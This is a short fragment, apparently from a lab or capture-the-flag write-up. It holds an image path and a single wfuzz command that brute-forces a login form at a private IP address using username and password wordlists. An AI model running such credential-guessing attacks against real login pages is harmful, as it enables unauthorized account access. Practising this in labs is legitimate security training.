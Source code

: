 ```wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.142.23/login.php -d "username=FUZZ&password=FUZ2Z"```
